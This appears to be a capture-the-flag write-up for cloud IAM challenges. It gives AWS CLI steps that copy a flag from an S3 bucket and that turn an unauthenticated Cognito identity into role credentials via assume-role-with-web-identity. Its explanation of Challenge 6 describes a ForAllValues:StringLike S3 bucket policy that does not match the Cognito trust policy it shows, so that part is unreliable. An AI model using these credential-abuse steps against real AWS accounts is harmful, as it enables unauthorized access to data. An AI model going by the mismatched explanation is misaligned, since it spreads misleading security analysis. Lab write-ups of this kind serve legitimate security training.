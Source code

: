 Export these into your terminal as environment variables and then run `aws sts get-caller-identity` to verify that you're making AWS calls with the new entity

![Challenge5](@assets/images/challenge5.PNG)

Then list and copy the flag over from the S3 bucket.

```
aws s3 ls s3://wiz-privatefiles/
aws s3 cp s3://wiz-privatefiles/flag1.txt
```

## Challenge 6

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "cognito-identity.amazonaws.com:aud": "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"
                }
            }
        }
    ]
}
```

### Understanding the Policy

This policy is designed to restrict access to an S3 bucket, allowing only a specific admin user to access it under certain conditions. However, the use of the `ForAllValues:StringLike` operator causes a security loophole where if the key (in this case aws:PrincipalArn) is not present at all, the condition will evaluate to true, and the request will be allowed.

### Testing the Theory

We first generate the token

`aws cognito-identity get-open-id-token --identity-id "us-east-1:5e3eaf20-3565-4894-bbf7-6a1836f7c27d"`

Use the generated token to create credentials.

`aws sts assume-role-with-web-identity --role-arn arn:aws:iam::092297851374:role/Cognito_s3accessAuth_Role --role-session-name my-session --web-identity-token <token value here>`

Export these into your terminal as environment variables and then run `aws sts get-caller-identity` to verify that you're making AWS calls with the new entity
